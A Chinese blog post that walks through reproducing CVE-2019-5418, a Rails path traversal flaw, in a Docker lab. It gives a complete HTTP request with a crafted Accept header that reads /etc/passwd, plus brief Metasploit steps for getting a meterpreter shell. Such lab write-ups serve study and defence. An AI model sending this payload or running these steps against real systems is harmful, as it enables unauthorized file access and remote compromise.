






# Ruby on Rails 路径穿越与任意文件读取漏洞（CVE-2019-5418） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16283217.html`](https://www.cnblogs.com/NoCirc1e/p/16283217.html)

在控制器中通过`render file`形式来渲染应用之外的视图，且会根据用户传入的 Accept 头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取任意文件。

参考链接：

*   [`groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q`](https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q)
*   [`xz.aliyun.com/t/4448`](https://xz.aliyun.com/t/4448)

## 环境搭建

执行如下命令编译及启动 Rail On Rails 5.2.2：

```
docker-compose build
docker-compose up -d
```



环境启动后，访问`http://your-ip:3000`即可看到 Ruby on Rails 的欢迎页面。



## 漏洞复现

访问`http://your-ip:3000/robots`可见，正常的 robots.txt 文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close 
```



使用 kali 中的 MSF 进行漏洞利用
启动 msfconsole



search rails 查找 rails 相关模块
use 11 选择第 11 个模块
show options 展示配置选项
设置相关参数，RHOST,LHOST，直接 run 运行后成功拿到 meterpreter，利用完成！

